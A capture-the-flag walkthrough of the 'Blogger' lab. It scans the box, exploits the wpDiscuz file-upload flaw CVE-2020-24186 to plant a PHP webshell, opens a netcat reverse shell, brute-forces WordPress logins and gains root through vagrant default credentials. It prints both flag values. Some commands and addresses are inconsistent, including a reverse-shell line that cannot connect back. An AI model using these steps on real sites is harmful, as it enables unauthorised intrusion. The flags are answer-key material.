# TryHackMe — Blogger | Full Walkthrough

> **Room:** [Blogger](https://tryhackme.com/room/blogger1)
> **Difficulty:** Easy/Medium
> **Author:** vodanhtieutot
> **Platform:** TryHackMe

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [Web Enumeration — Gobuster](#3-web-enumeration--gobuster)
4. [Directory Traversal — Discovering the Hidden Blog](#4-directory-traversal--discovering-the-hidden-blog)
5. [WordPress Enumeration — WPScan](#5-wordpress-enumeration--wpscan)
6. [Exploitation — CVE-2020-24186 (wpDiscuz RCE)](#6-exploitation--cve-2020-24186-wpdiscuz-rce)
7. [Foothold — Reverse Shell via Webshell](#7-foothold--reverse-shell-via-webshell)
8. [Flag 1 — User Flag](#8-flag-1--user-flag)
9. [Privilege Escalation — Vagrant Default Credentials → sudo ALL](#9-privilege-escalation--vagrant-default-credentials--sudo-all)
10. [Flag 2 — Root Flag](#10-flag-2--root-flag)
11. [Flags & Answers Summary](#11-flags--answers-summary)
12. [Attack Chain Summary](#12-attack-chain-summary)
13. [Tools Used](#13-tools-used)

---

## 1. Overview

**Blogger** is a Linux machine on TryHackMe built around a WordPress blog buried deep inside a non-obvious directory path. The key challenge is discovering the blog's true virtual hostname through page source analysis, then exploiting an unauthenticated Remote Code Execution vulnerability in the **wpDiscuz** plugin (CVE-2020-24186) to gain a foothold. Privilege escalation abuses the **vagrant** default account, which has unconstrained `sudo` access.

```
Recon → Gobuster → Directory Traversal → /etc/hosts Hostname Discovery
→ WordPress Enumeration (WPScan) → wpDiscuz 7.0.4 RCE (CVE-2020-24186)
→ Webshell → Reverse Shell → User Flag
→ vagrant:vagrant → sudo su → root → Root Flag
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `192.168.189.217` |
| Machine Name | `ubuntu-xenial` |
| OS | Ubuntu Linux (Xenial) |
| Open Ports | 22 (SSH), 80 (HTTP) |
| Web Server | Apache 2.4.18 |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

We start with a full port scan using `-Pn` to skip host discovery, combined with `--min-rate 5000` to speed up the scan:

```bash
nmap -Pn -p- --min-rate 5000 192.168.189.217
```



Only two ports are open:

| Port | State | Service |
|---|---|---|
| 22/tcp | open | ssh |
| 80/tcp | open | http |

### 2.2 Service & Script Scan

Run a detailed scan with `-sC` (default scripts), `-sV` (version detection), and `-A` (OS detection) against the discovered ports:

```bash
nmap -sC -sV -A -Pn -p 22,80 192.168.189.217
```



Key findings:

| Detail | Value |
|---|---|
| Port 22 | OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 |
| Port 80 | Apache httpd 2.4.18 (Ubuntu) |
| HTTP Title | `Blogger \| Home` |
| OS | Linux 3.X / 4.X |

> The HTTP title "Blogger | Home" tells us there is a web application running. Our next step is to browse the site and enumerate its directory structure.

---

## 3. Web Enumeration — Gobuster

### 3.1 Browsing the Target

Navigating to `http://192.168.189.217` reveals a static portfolio-style homepage:


The site presents itself as a personal portfolio for someone named **James**. The navigation bar includes Home, About, Services, Projects, Contact, and Login — but no blog link is visible.

### 3.2 Root Directory Gobuster Scan

We enumerate hidden directories from the web root:

```bash
gobuster dir -u http://192.168.189.217 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt \
  -t 100 \
  -o result.txt
```



Notable directories found:

| Path | Status | Notes |
|---|---|---|
| `/index.html` | 200 | Static homepage |
| `/assets` | 301 | Static assets folder |
| `/images` | 301 | Images folder |
| `/css` | 301 | Stylesheets |
| `/js` | 301 | JavaScript |

> `/assets` is worth exploring — static asset folders sometimes contain more than just CSS/JS.

---

## 4. Directory Traversal — Discovering the Hidden Blog

### 4.1 Browsing /assets

Navigating to `http://192.168.189.217/assets/` shows a directory listing. Digging further into `/assets/fonts/`:



Inside `/assets/fonts/`, there is an unusual **`blog/`** subdirectory — clearly out of place among font files:



> 💡 **Finding:** A `blog/` directory is hidden inside `/assets/fonts/`. This is a deliberate obfuscation technique — the WordPress installation is buried deep in the asset path to avoid easy discovery.

### 4.2 Virtual Hostname Discovery via Page Source

Navigating to `http://192.168.189.217/assets/fonts/blog/` renders partially broken content. Inspecting the page source reveals the real reason — the WordPress site references a virtual hostname:



The source code contains links pointing to `http://blogger.pg/...` — a virtual host that doesn't resolve by default.

**Fix — add the hostname to `/etc/hosts`:**

```bash
echo "192.168.189.217  blogger.pg" | sudo tee -a /etc/hosts
```

### 4.3 Accessing the WordPress Blog

After adding the entry, navigating to `http://blogger.pg/assets/fonts/blog/` loads the full WordPress site:



The site is a WordPress blog named **"Blogger"**, authored by **J@M3S**, featuring posts about OWASP Top 10 vulnerabilities. This gives us a likely username: `j@m3s`.

---

## 5. WordPress Enumeration — WPScan

### 5.1 Second Gobuster Pass — Confirming WordPress Structure

We confirm the WordPress installation by running Gobuster against the blog path:

```bash
gobuster dir -u http://blogger.pg/assets/fonts/blog/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt \
  -t 100
```



Standard WordPress paths confirmed:

| Path | Status | Notes |
|---|---|---|
| `/wp-login.php` | **200** | Login page live |
| `/wp-admin` | 301 | Admin panel |
| `/wp-content` | 301 | Media / plugins / themes |
| `/wp-includes` | 301 | WordPress core |
| `/license.txt` | 200 | WordPress version info |

### 5.2 WPScan — Plugin Enumeration

Run WPScan with aggressive plugin detection to find vulnerable components:

```bash
wpscan --url http://blogger.pg/assets/fonts/blog/ \
  --enumerate ap,at,cb,dbe,u \
  --plugins-detection aggressive
```



WPScan identifies two plugins:



| Plugin | Version | Status |
|---|---|---|
| akismet | 4.0.8 | Out of date (latest: 5.6) |
| **wpdiscuz** | **7.0.4** | **Out of date — VULNERABLE** |

> 🔍 **Key Finding:** `wpdiscuz 7.0.4` is an extremely vulnerable version. CVE-2020-24186 allows **unauthenticated arbitrary file upload leading to Remote Code Execution**.

### 5.3 WPScan — User Enumeration

WPScan also discovers two valid WordPress users:



| Username | Discovery Method |
|---|---|
| `j@m3s` | Author Posts (Passive) + RSS + Login Error |
| `jm3s` | Author ID Brute Forcing (Aggressive) |

### 5.4 Brute Force Attempt (Failed)

We attempt to brute-force both users against the login page:

```bash
wpscan --url http://blogger.pg/assets/fonts/blog/ \
  --usernames j@m3s,jm3s \
  --passwords /usr/share/wordlists/rockyou.txt \
  --password-attack wp-login
```



No valid credentials found — the passwords are not in rockyou.txt. We pivot to exploiting the plugin directly instead.

---

## 6. Exploitation — CVE-2020-24186 (wpDiscuz RCE)

### 6.1 Research — Finding the Exploit

Searching for public exploits for `wpdiscuz`:

```bash
searchsploit wpdiscuz
```



Three exploits are available for wpDiscuz 7.0.4:

| Exploit | Type | EDB ID |
|---|---|---|
| Arbitrary File Upload (Unauthenticated) | Shell script | 49962 |
| **Remote Code Execution (Unauthenticated)** | **Python** | **49967** |
| Unauthenticated Arbitrary File Upload | Metasploit | 49401 |

We use exploit **49967** (Python, CVE-2020-24186):

```bash
searchsploit -m 49967
```

> **How CVE-2020-24186 works:** The wpDiscuz plugin allows users to upload images as comment attachments. The file type validation only checks the MIME type client-side and uses a flawed server-side check that can be bypassed by appending a PHP webshell to a valid image. The uploaded PHP file is accessible via its URL, giving the attacker unauthenticated code execution.

### 6.2 Running the Exploit

The exploit requires a target URL and a specific WordPress post ID (use `?p=<ID>` to target a post that has comments enabled):

```bash
python3 49967.py -u http://blogger.pg/assets/fonts/blog/ -p /?p=9
```



```
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186

[+] Response length:[60370] | code:[200]
[!] Got wmuSecurity value: 4d67dfc61d
[!] Got wmuSecurity value: 9

[+] Generating random name for Webshell ...
[!] Generated webshell name: voqvogwnodazjbr

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:
    http://blogger.pg/assets/fonts/blog/wp-content/uploads/2026/03/voqvogwnodazjbr-1774708910.5499.php

> dir
```

We now have an interactive webshell at the uploaded PHP path.

---

## 7. Foothold — Reverse Shell via Webshell

### 7.1 Upgrading to a Stable Reverse Shell

The webshell is functional but unstable. We use it to execute a Netcat reverse shell one-liner. First, set up a listener on the attacker machine:

```bash
nc -lvnp 5555
```

Then send the reverse shell payload via the webshell prompt:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -lvnp 5555 >/tmp/f
```



### 7.2 Catching the Shell

The listener on port 5555 receives the connection:



```
$ nc 192.168.235.217 5555
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/var/www/wordpress/assets/fonts/blog/wp-content/uploads/2026/03
```

We are running as `www-data` inside the WordPress uploads directory.

### 7.3 Filesystem Exploration & User Flag

Navigating to `/home` reveals three user directories:

```
$ cd /home
$ dir
james  ubuntu  vagrant
```

Navigating into `/home/james`:

```
$ cd james
$ dir
local.txt
$ cat local.txt
ae8fc0baf8fd83fa8c2a90e333b164a4
```

> 🚩 **User Flag (local.txt):** `ae8fc0baf8fd83fa8c2a90e333b164a4`

---

## 8. Flag 1 — User Flag

| File | Location | Value |
|---|---|---|
| `local.txt` | `/home/james/local.txt` | `ae8fc0baf8fd83fa8c2a90e333b164a4` |

> **Note:** During filesystem exploration, MySQL credentials for `james` and `root` were also found in the WordPress config (`wp-config.php`), but the password hashes extracted from the database could not be cracked — this was a dead end. The path forward is lateral movement via the `vagrant` account.

---

## 9. Privilege Escalation — Vagrant Default Credentials → sudo ALL

### 9.1 Identifying the vagrant Account

The `/home` directory listed three users: `james`, `ubuntu`, and **`vagrant`**.

The `vagrant` account is associated with the Vagrant virtualization tool, which uses a well-known default password: `vagrant`. This is a common misconfiguration where the default Vagrant box credentials are left unchanged in a production-like environment.

### 9.2 Switching to vagrant

From the `www-data` shell, we switch to the `vagrant` user using its default password:

```bash
su vagrant
Password: vagrant
```



Login is successful.

### 9.3 Checking sudo Privileges

```bash
sudo -l
```



```
User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL
```

> 🎯 **Critical Finding:** The `vagrant` user has full, passwordless `sudo` access to **all commands** on the system. This is a catastrophic misconfiguration — any user who knows the vagrant password can immediately escalate to root.

### 9.4 Escalating to root

```bash
sudo su
```



```
root@ubuntu-xenial:/home/james#
```

We are now `root`.

---

## 10. Flag 2 — Root Flag

Navigate to `/root` and read the proof file:

```bash
cd /root
dir
cat proof.txt
```



```
root@ubuntu-xenial:~# cat proof.txt
0ed4057e19d7d75b93a4f41e956f48dc
```

> 🚩 **Root Flag (proof.txt):** `0ed4057e19d7d75b93a4f41e956f48dc`

---

## 11. Flags & Answers Summary

| Flag | File | Location | Value |
|---|---|---|---|
| User Flag | `local.txt` | `/home/james/local.txt` | `ae8fc0baf8fd83fa8c2a90e333b164a4` |
| Root Flag | `proof.txt` | `/root/proof.txt` | `0ed4057e19d7d75b93a4f41e956f48dc` |

---

## 12. Attack Chain Summary

```
[1] Nmap -Pn -p- --min-rate 5000
        → Port 22 (SSH), Port 80 (HTTP)

[2] Nmap -sC -sV -A
        → Apache 2.4.18, Ubuntu Xenial, title "Blogger | Home"

[3] Browse http://192.168.189.217
        → Static portfolio site — "Hello, My Name is James"

[4] Gobuster dir /
        → /assets (301), /images (301), /css (301), /js (301)

[5] Browse /assets → /assets/fonts
        → Suspicious blog/ subfolder inside fonts directory

[6] View page source of /assets/fonts/blog/
        → Virtual hostname: blogger.pg
        → Add to /etc/hosts: 192.168.189.217  blogger.pg

[7] Browse http://blogger.pg/assets/fonts/blog/
        → WordPress blog "Blogger" — author: J@M3S
        → WordPress confirmed

[8] Gobuster dir /assets/fonts/blog/
        → wp-login.php (200), wp-admin (301), wp-content (301)

[9] WPScan --enumerate ap,at,u --plugins-detection aggressive
        → Plugin: wpdiscuz 7.0.4 (VULNERABLE — CVE-2020-24186)
        → Users: j@m3s, jm3s

[10] WPScan brute force (j@m3s, jm3s vs rockyou.txt)
        → No credentials found — pivot to plugin exploit

[11] searchsploit wpdiscuz → EDB-49967 (CVE-2020-24186)
        → Python exploit: unauthenticated file upload → PHP webshell

[12] python3 49967.py -u http://blogger.pg/assets/fonts/blog/ -p /?p=9
        → Webshell uploaded to /wp-content/uploads/2026/03/[name].php
        → Interactive command execution as www-data

[13] Webshell → mkfifo reverse shell → nc -lvnp 5555
        → Stable shell as www-data

[14] cat /home/james/local.txt
        → User flag ✓

[15] su vagrant (password: vagrant)
        → Default Vagrant credentials accepted

[16] sudo -l
        → (ALL) NOPASSWD: ALL

[17] sudo su
        → root@ubuntu-xenial

[18] cat /root/proof.txt
        → Root flag ✓
```

---

## 13. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning & service fingerprinting |
| `gobuster` | Web directory brute-forcing |
| Firefox | Manual web browsing & page source analysis |
| `/etc/hosts` | Virtual hostname mapping |
| `wpscan` | WordPress security scanner — plugin & user enumeration |
| `searchsploit` | Local exploit database search |
| `python3 49967.py` | CVE-2020-24186 wpDiscuz RCE exploit |
| `netcat` | Reverse shell listener |
| `sudo` | Privilege escalation via vagrant → root |

---

## Key Lessons

**1. Hidden directories can be nested anywhere** — a `blog/` folder inside `/assets/fonts/` is deliberately obscure. Always enumerate recursively.

**2. Always inspect page source** — virtual hostnames embedded in source code are a common CTF technique to reveal the true application address.

**3. Plugin versions matter** — wpDiscuz 7.0.4 is critically vulnerable (CVE-2020-24186). WPScan with aggressive detection is essential for WordPress boxes.

**4. Default credentials are always worth trying** — `vagrant:vagrant` is a default credential pair that should be tested whenever a `vagrant` user is present on a Linux machine.

**5. sudo NOPASSWD: ALL is game over** — any account with this permission can trivially escalate to root. Check with `sudo -l` immediately after gaining new account access.
